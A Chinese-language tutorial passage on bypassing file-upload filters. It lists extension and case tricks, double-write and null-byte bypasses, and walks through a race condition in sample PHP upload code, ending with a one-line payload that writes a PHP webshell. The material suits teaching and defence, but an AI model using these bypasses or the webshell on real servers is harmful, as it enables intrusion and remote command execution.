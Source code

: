 常见图片文件头
- gif(GIF89a) : 47 49 46 38 39 61
- jpg; jpe; jpeg : FF D8 FF FE 00
- png : 89 50 4E 47 0D 0A
 
### 黑名单校验
黑名单限制很难将全部的内容过滤，可以用特殊的后缀名实现绕过
- php：php3、php4、php5、php7、phtml
- jsp：jspx、jspf
- asp：aspx、cer、cdx、asa、asax

利用大小写绕过
- Php、PhtMl、PHp3、phP4

利用双写进行绕过
- phphpp、pphtmlhtml

0x00截断，php的一些函数的底层是C语言，遇到0x00会截断
- php版本<5.3.4
- magic_quotes_gpc关闭

### 条件竞争
条件竞争漏洞是一种服务器端的漏洞，由于服务器端在处理不同用户的请求时是并发进行的，因此，如果并发处理不当或相关操作逻辑顺序设计的不合理时，将会导致此类问题的发生。

```php
if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_name = $_FILES['upload_file']['name'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_ext = substr($file_name,strrpos($file_name,".")+1);
    $upload_file = UPLOAD_PATH . '/' . $file_name;

    if(move_uploaded_file($temp_file, $upload_file)){
        if(in_array($file_ext,$ext_arr)){
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path); // rename修改名称
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);  // unlink删除文件
        }
    }else{
        $msg = '上传出错！';
    }
}
```
因为文件会先上传到服务器的临时目录，通过白名单验证，不符合条件的文件再通过 `unlink` 删除文件。通过不断上传图片马，内容为
```php
fputs(fopen('shell.php','w+'),'<?php @eval($_POST[cmd])?>');
```
在文件还没被 `unlink` 之前访问文件，则会生成一个 `shell.php` 的 webshell

</br>
